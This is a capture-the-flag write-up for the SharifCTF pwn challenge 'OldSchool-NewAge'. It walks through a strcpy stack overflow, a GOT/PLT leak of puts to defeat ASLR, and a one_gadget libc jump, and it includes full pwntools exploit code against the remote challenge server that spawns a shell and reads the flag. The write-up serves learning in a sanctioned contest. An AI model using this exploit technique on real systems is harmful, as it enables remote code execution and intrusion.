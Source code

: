 OldSchool-NewAge
===

**Category:** Pwn, **Points:** 75, **Solves:** 108, **Rank:** 17

> It all started with a leak bang
>
> nc ctf.sharif.edu 4801 
>
> Alternative: nc 213.233.161.38 4801

### Write-up

We are given linux 32bit ELF executable and `libc.so` used on remote server.

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Luckily for us, the executable is **not** position independent, so we know its `main` addresss, there is also no [canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) to protect against [stack smashing](https://en.wikipedia.org/wiki/Stack_buffer_overflow). The only problem we might have is [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)on server, as the program suggests: "This time it is randomized...".

There is no source code, but luckily the application is simple enough to decompile it by any decompiler. It is [retdec](https://retdec.com/decompilation-run/) output:

```
// Address range: 0x80484cb - 0x80484e9
char* copy_it(char* str2) {
    char str[??];
    strcpy(str, str2);
    return NULL;
}

// Address range: 0x80484ea - 0x804857f
int main(int argc, char** argv) {
    puts("This time it is randomized...");
    puts("You should find puts yourself");
    fflush(stdin);
    char str[??];
    fgets(str, 200, stdin);
    copy_it(str);
    puts("done!");
    return 0;
}
```

Aww, it looks like the classic buffer overflow vulnerability. Buffer length might me estimated with accuracy of compiler variables alignment, but it is not really necessary here, as we can simply send long payload and see what happens. There is no canary so we can easily send long message to replace old return address with a new one - for example to `execve` from `libc` to run `/bin/sh` app. Let's first see if there is really vulnerability. 

```
from pwn import *

p = gdb.debug("./vuln4", "continue")

p.sendline(cyclic(200))

```

We have used here great python library `pwntools`. It starts application under gdb and sends long line to it.

```
Program received signal SIGSEGV, Segmentation fault.
0x61676161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
 EAX  0x0
 EBX  0x0
*ECX  0xffc49cc0 ◂— 'abyaa'
*EDX  0xffc49c88 ◂— 'abyaa'
*EDI  0xf76f2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b5db0
*ESI  0x1
*EBP  0x61666161 ('aafa')
*ESP  0xffc49be0 ◂— 0x61686161 ('aaha')
*EIP  0x61676161 ('aaga')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x61676161

[────────────────────────────────────STACK─────────────────────────────────────]
00:0000│ esp  0xffc49be0 ◂— 0x61686161 ('aaha')
01:0004│      0xffc49be4 ◂— 0x61696161 ('aaia')
02:0008│      0xffc49be8 ◂— 0x616a6161 ('aaja')
03:000c│      0xffc49bec ◂— 0x616b6161 ('aaka')
04:0010│      0xffc49bf0 ◂— 0x616c6161 ('aala')
05:0014│      0xffc49bf4 ◂— 0x616d6161 ('aama')
06:0018│      0xffc49bf8 ◂— 0x616e6161 ('aana')
07:001c│      0xffc49bfc ◂— 0x616f6161 ('aaoa')
[──────────────────────────────────BACKTRACE───────────────────────────────────]
 ► f 0 61676161
   f 1 61686161
   f 2 61696161
   f 3 616a6161
   f 4 616b6161
   f 5 616c6161
   f 6 616d6161
   f 7 616e6161
   f 8 616f6161
   f 9 61706161
   f 10 61716161
Program received signal SIGSEGV (fault address 0x61676161)
pwndbg> 
```

Program crashed as we wanted - it wanted to jump to address `0x61676161` which is incorrect one, let's see at which offset there is return address:

```
>>> from pwn import *
>>> cyclic(200).find(p32(0x61676161))
22
```

That means we must put 22 bytes of junk, then new return address and the rest arguments. Now we must overcome ASLR. The tip is in program message: _"You should find puts yourself"_. We can exploit [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html). The executable is `dynamically linked`:

```
$ file vuln4
vuln4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2da0205021e2719e0e6feb17a4e571dca715
558c, not stripped
```

That means when we call some standard c library function, function from system `libc` is executed, but of course at the time of compilation, we don't know at which address functions will be at the time of execution, executable has to somehow find the address of desired function. Here comes GOT & PLT mechanism. All calls to `puts` are calls to function:

```
> disass puts@plt
0x080483A0: jmp     DWORD PTR ds:0x8049874
0x080483A6: push    0x18
0x080483AB: jmp     0x8048360
```

For the first time under address `0x8049874` there is address to next instruction (`push`), then it jumps to another function to fill memory under address `0x8049874` with actual address of desired function - `puts`. You can read more about [PLT and GOT here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).

To leak radomized by ASLR `libc` address, we are going to jump to `puts@plt` with argument `puts@got` so that it prints **actual** address of `puts` in `libc` (and then we return again to main).

```
from pwn import *

p = remote("ctf.sharif.edu", "4801")

pelf = ELF("vuln4")
puts_plt = pelf.symbols['plt.puts']
puts_got = pelf.symbols['got.puts']

payload = 22 * 'a'
payload += p32(puts_plt)
payload += p32(pelf.symbols['main'])
payload += p32(puts_got)

p.readline()
p.readline()

p.sendline(payload)
puts = u32(p.read(4))
print "libc puts: " + hex(puts)
p.clean()
```

Luckily authors gave us whole `libc` running on server, so there is no need to guess version of it and we can directly find out at which offset there is `puts` in this `libc`, in order to compute at which offset there is desired function (e.g. `execve`):

```
elf = ELF("libc.so.6")
base = puts - elf.symbols['puts']
print "libc base: " + hex(base)
```

`fgets` is really nice function and it accepts almost everything, but `strcpy` which is later used on read string stops once it meets byte `0x0` and we need this value to call `execve("/bin/sh", NULL, NULL)`. We might constuct simple rop chain, or... find place in `libc` which calls directly `execve("/bin/sh", NULL, NULL)`! There is handy tool [one gadget](https://github.com/david942j/one_gadget), which can find calls to execve /bin/sh in libc.

``` 
$ one_gadget ./libc.so.6
0x3ac5c    execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac5e    execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac62    execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac69    execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5fbc5    execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbc6    execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```

There are plenty of `execve /bin/sh`, all of them requires some special conditions but luckily conditions for call at offset `0x5fbc5` are met in our case, so we can jump to `base + 0x5fbc5` to start `/bin/sh`.

```
payload = 22 * 'a' + p32(base + 0x5fbc5)
p.sendline(payload)
p.interactive()
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

###### Mucosolvan & Bartek aka bandysc 